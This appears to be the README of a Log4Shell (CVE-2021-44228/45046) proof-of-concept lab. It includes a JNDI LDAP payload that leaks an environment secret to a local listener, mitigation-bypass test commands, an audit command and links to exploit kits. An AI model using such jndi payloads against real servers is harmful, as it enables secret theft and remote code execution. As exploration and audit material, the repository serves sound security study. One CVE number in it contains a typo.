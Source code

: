 Log4j vulnerability exploration/proof of concept
================================================
Also known as CVE-2021-45046 CVE-20201-44228 #log4shell

https://logging.apache.org/log4j/2.x/security.html

How to use
===============================================
First verify that it works by running `test.sh` it should print ITWORKS in uppercase for different log levels


Exfiltration example
---------------------
```
cd listener
./ldap-exfil.py
```
in another terminal run the following and observe the secret key value being leaked to the ldap server
```
export SECRET_KEY="this_is_a_secret_key"
./vuln.sh error '${jndi:ldap://localhost:8888/${env:SECRET_KEY}}'
```


Mitigation bypass
------------------
You can compare the behaviour of the printf call to the others via:
```
./mitigator-vuln.sh error '${upper:bypass}'
./mitigator-vuln.sh info '${upper:bypass}'
./mitigator-vuln.sh printf '${upper:bypass}'
```

Audit source for log4j usage
----------------------------
```
graudit -d ./log4shell.db <file_or_dir>
```
And don't forget to look for the class files (recursively through jar/war/zip files)

Links
------------------
Thanks to all those who shared stuff before me, some of the links below.
https://github.com/pimps/JNDI-Exploit-Kit
https://github.com/leonjza/log4jpwn
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
